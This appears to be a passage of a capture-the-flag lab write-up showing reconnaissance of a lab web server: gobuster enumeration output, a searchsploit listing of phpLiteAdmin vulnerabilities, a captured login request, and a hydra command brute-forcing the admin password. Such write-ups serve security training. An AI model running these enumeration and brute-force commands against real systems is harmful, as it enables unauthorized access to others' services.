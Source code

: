 ```bash
===============================================================
2021/03/31 00:46:49 Starting gobuster in directory enumeration mode
===============================================================
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
Progress: 70864 / 220561 (32.13%)                                                  ^C
[!] Keyboard interrupt detected, terminating.
                                                                                     
===============================================================
2021/03/31 00:49:38 Finished                               
===============================================================                                                       
```# Port 443

- /db/ tells us that this is a PHP based web site
![[Pasted image 20210330015253.png]]
- phpLiteAdmin hosted on /db. phpLiteAdmin is SQLite based. v1.9
- Searchsploit Exploits
```bash
searchsploit phpliteadmin                                                                                     2 ↵
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                                | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                         | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                      | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                       | php/webapps/39714.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

```
- We need remote code execution, but for that we need a valid user. The request is below:
```html
POST /db/index.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.43/db/
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://10.10.10.43
Connection: close
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1

password=sad&remember=yes&login=Log+In&proc_login=true
```
- Using hydra for bruteforcing
```sudo hydra -l admin -P $ROCK 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-31 01:08:24
```